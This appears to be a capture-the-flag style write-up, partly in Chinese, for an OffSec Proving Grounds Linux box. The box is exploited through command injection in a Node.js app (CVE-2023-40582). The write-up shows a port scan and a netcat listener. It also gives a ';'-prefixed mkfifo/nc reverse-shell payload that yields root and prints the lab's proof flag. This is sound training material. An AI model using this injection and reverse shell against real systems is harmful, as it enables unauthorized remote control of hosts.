 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# CVE-2023-40582
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.36 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.36:22
Open 192.168.219.36:3000

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Command Guess Game
```

搜尋[CVE-2023-40582](https://security.snyk.io/vuln/SNYK-JS-FINDEXEC-5876637)可以藉由`;`後面接惡意指令進行遠端程式碼執行攻擊，開啟nc，在指令框打上bash指令，等反彈得root，到/root得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.175 9001 >/tmp/f

# whoami
root
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@ubuntu:/usr/src/app# cd /root
root@ubuntu:~# cat proof.txt
08e38ae65e5d72f41cad6eb0139f9a2f
```
